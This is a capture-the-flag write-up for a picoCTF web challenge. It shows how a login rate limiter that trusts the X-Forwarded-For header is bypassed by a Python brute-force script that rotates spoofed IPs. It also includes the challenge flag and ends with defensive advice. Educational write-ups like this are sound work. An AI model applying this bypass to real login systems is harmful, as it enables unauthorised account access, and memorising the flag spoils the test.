


# Challenge: Crack the Gate 2
**Category:** Web Exploitation
**Difficulty:** Medium
**Points:** 200
**Author:** Yahaya Meddy

---

## Description
The login endpoint at `/login` accepted JSON credentials and implemented IP-based rate limiting — locking out an IP after repeated failed attempts. However, the server trusted the `X-Forwarded-For` header to determine the client's IP, allowing an attacker to spoof a new source IP on every request and bypass the lockout entirely.



## Approach

### 1. Identifying the Vulnerability
Initial login attempts triggered a rate limit: *"Too many failed attempts. Please try again in 20 minutes."* Analysis (and challenge hints) suggested that the server relies on the `X-Forwarded-For` HTTP header for identifying the client IP rather than the actual socket connection.

### 2. Exploitation (XFF Spoofing)
I developed a Python script to automate a brute-force attack. The key was rotating a unique `X-Forwarded-For` IP address for every single request. By doing this, each attempt appeared to the server as coming from a completely different user, effectively resetting the rate-limit counter for every password guess.

**Python Script Logic:**
```python
import requests
import time

url = "http://TARGET/login"
email = "ctf-player@picoctf.org"
passwords = ["...", "..."] # Provided password list

for i, pwd in enumerate(passwords):
    fake_ip = f"10.0.0.{i}" # Rotating IP
    headers = {
        "Content-Type": "application/json",
        "X-Forwarded-For": fake_ip
    }
    r = requests.post(url, json={"email": email, "password": pwd}, headers=headers)
    # ... handle response
```

### 3. Flag Retrieval
The script successfully bypassed the rate limiter and identified the correct password. The server responded with a JSON object containing the flag.



---

## Flag
`picoCTF{xff_byp4ss_brut3_ff36dbbc}`

## Key Takeaway
Rate limiting based solely on `X-Forwarded-For` is trivially bypassable since it is a user-controlled header. Security-sensitive logic (like rate limiting or access control) should rely on the actual TCP connection IP or be behind a trusted proxy that correctly sanitizes or overwrites the `X-Forwarded-For` header.
